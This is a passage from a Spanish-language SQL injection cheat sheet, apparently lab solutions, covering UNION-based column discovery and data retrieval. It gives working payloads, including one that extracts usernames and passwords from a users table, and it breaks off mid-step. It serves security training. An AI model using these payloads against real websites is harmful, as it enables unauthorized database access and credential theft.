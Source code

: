 ## Índice

- [UNION Attack: Determinar el número de columnas](#union-attack-determinar-el-número-de-columnas)
- [UNION Attack: Encontrar columnas con texto](#union-attack-encontrar-columnas-con-texto)
- [UNION Attack: Recuperar datos de otras tablas](#union-attack-recuperar-datos-de-otras-tablas)
- [UNION Attack: Múltiples valores en una sola columna](#union-attack-múltiples-valores-en-una-sola-columna)
- [Obtener versión de DB (Oracle, MySQL, MSSQL)](#obtener-versión-de-db)
- [Listado de bases de datos y tablas](#listado-de-bases-de-datos-y-tablas)
- [Blind SQLi - Condicional, con errores, delay y exfiltración](#blind-sqli)
- [Login Bypass & WHERE Vulnerability](#login-bypass--where-vulnerability)
- [Error-based Injection Visible](#error-based-injection-visible)

## SQL injection UNION attack, determinar el número de columnas

(Sigue añadiendo NULLs hasta que des con el número de columnas)

``'+UNION+SELECT+NULL,NULL--

## SQL injection UNION attack, Encontrar columnas con texto

1. Use Burp Suite para interceptar y modificar la solicitud que establece el filtro de categoría de producto. 
2. Determine el número de columnas que devuelve la consulta. Verifique que la consulta devuelva tres columnas, utilizando la siguiente carga útil en el parámetro ``category``:

``+UNION+SELECT+NULL,NULL,NULL-- 

3. Intente reemplazar cada valor nulo con el valor aleatorio proporcionado por el laboratorio, por ejemplo:  

``'+UNION+SELECT+'abcdef',NULL,NULL-- 

1. Si se produce un error, pase al siguiente valor nulo e inténtelo en su lugar.

## SQL injection UNION attack, recuperando datos de otras tablas

#### Solución Rápida:

Utilice las cargas útiles anteriores para recuperar el número de columnas y cuáles contienen datos de texto. La descripción indica que existe una tabla ``users`` con las columnas ``username`` y ``password``. Utilice la siguiente carga útil para recuperar el contenido de la tabla ``users``: 

``'+UNION+SELECT+username,+password+FROM+users--

#### Solución Larga:

1. Use Burp Suite para interceptar y modificar la solicitud que establece el filtro de categoría de producto. 
2. Determine el número de columnas que devuelve la consulta y cuáles contienen datos de texto. Verifique que la consulta devuelva dos columnas, ambas con texto, utilizando una carga útil como la siguiente en el parámetro de categoría: 
